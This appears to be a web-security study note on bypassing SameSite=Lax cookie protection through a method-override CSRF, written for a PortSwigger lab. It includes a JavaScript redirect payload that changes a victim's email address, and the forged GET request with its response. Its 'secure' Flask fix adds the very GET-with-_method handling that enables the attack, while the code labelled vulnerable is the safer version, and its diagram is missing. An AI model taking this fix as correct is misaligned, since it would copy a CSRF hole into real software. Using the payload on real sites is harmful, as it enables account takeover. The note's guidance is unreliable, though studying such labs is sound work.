

## SameSite Lax Configuration

The `SameSite` attribute of cookies is designed to mitigate CSRF attacks by controlling whether a cookie is sent with cross-site requests. There are three possible values for the `SameSite` attribute:

- **Strict**: The cookie is only sent with first-party requests.
- **Lax**: The cookie is sent with first-party requests and some cross-site requests (e.g., top-level navigation).
- **None**: The cookie is sent with all requests, but requires the `Secure` flag.

### SameSite Lax Bypass via Method Override

Even with `SameSite=Lax` configured, attackers can sometimes bypass the protection by using method override techniques. This involves tricking the server into interpreting a GET request as a POST request, thus allowing the attacker to perform actions that would normally require a POST request.

### Method Override Technique

Method override is a technique where a GET request is used to perform actions that typically require a POST request. This can be achieved by including a special header (`X-HTTP-Method-Override`) or a parameter (`_method`) in the request.

#### Example: Changing Email Address via Method Override

Consider a web application where users can change their email address by submitting a form with a POST request. The form might look like this:

```html
<form action="/change-email" method="POST">
    <input type="email" name="new_email" value="test@example.com">
    <button type="submit">Change Email</button>
</form>
```

An attacker can bypass the `SameSite=Lax` protection by using a GET request with method override. Here’s how it can be done:

1. **Craft the Request**: The attacker crafts a GET request with a method override parameter.
2. **Send the Request**: The request is sent to the victim's browser, which sends it to the server.
3. **Server Interpretation**: The server interprets the GET request as a POST request due to the method override.

#### Code Example

Here is a complete example of how an attacker can craft a GET request with method override to change a user's email address:

```html
<script>
    // Craft the request with method override
    var url = "/change-email?new_email=test@example.com&_method=POST";
    document.location.href = url;
</script>
```

This script will redirect the victim's browser to the crafted URL, which includes the method override parameter `_method=POST`.

### Full HTTP Request and Response

Let's break down the full HTTP request and response for this method override attack:

#### HTTP Request

```http
GET /change-email?new_email=test@example.com&_method=POST HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://example.com/
Cookie: session_id=abc123
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 14 Sep 2021 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Email Changed</title>
</head>
<body>
    <h1>Your email has been changed to test@example.com</h1>
</body>
</html>
```

### Mermaid Diagram: Attack Flow

A mermaid diagram can help visualize the attack flow:



### Common Pitfalls and Mistakes

When implementing method override, developers should be aware of the following pitfalls:

- **Incorrect Server Configuration**: Ensure the server correctly interprets the method override parameter.
- **Missing Validation**: Always validate the method override parameter on the server-side.
- **Insufficient Protection**: Relying solely on `SameSite=Lax` without additional protections can leave the application vulnerable.

### How to Prevent / Defend Against Method Override CSRF

To defend against method override CSRF attacks, developers should:

- **Use CSRF Tokens**: Include unique tokens in forms and validate them on the server-side.
- **Validate Method Override**: Ensure the method override parameter is valid and intended.
- **Implement Content Security Policy (CSP)**: Restrict the sources of content to prevent malicious scripts from being executed.

#### Secure Coding Fix

Here is an example of how to securely handle method override:

```python
from flask import request

def change_email():
    if request.method == 'POST':
        new_email = request.form['new_email']
        # Validate and update email
        return "Email changed successfully"
    elif request.method == 'GET' and request.args.get('_method') == 'POST':
        new_email = request.args.get('new_email')
        # Validate and update email
        return "Email changed successfully"
    else:
        return "Invalid request", 400
```

#### Vulnerable vs. Secure Code

**Vulnerable Code**

```python
from flask import request

def change_email():
    if request.method == 'POST':
        new_email = request.form['new_email']
        # Validate and update email
        return "Email changed successfully"
```

**Secure Code**

```python
from flask import request

def change_email():
    if request.method == 'POST':
        new_email = request.form['new_email']
        # Validate and update email
        return "Email changed successfully"
    elif request.method == 'GET' and request.args.get('_method') == 'POST':
        new_email = request.args.get('new_email')
        # Validate and update email
        return "Email changed successfully"
    else:
        return "Invalid request", 
```

### Conclusion

CSRF attacks are a significant threat to web applications. By understanding the mechanics of these attacks and implementing robust defenses, developers can protect their applications from unauthorized actions. The use of CSRF tokens, proper configuration of `SameSite` cookies, and validation of method override parameters are essential steps in preventing these attacks.

### Practice Labs

For hands-on practice with CSRF and method override attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers comprehensive labs on CSRF and method override.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security attacks, including CSRF.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing penetration testing and security assessments.

By engaging with these labs, you can gain practical experience in identifying and defending against CSRF attacks.

---
<!-- nav -->
[[02-Cross-Site Request Forgery (CSRF)|Cross-Site Request Forgery (CSRF)]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/10-Lab 9 SameSite Lax bypass via method override/00-Overview|Overview]] | [[04-Understanding SameSite Attribute|Understanding SameSite Attribute]]
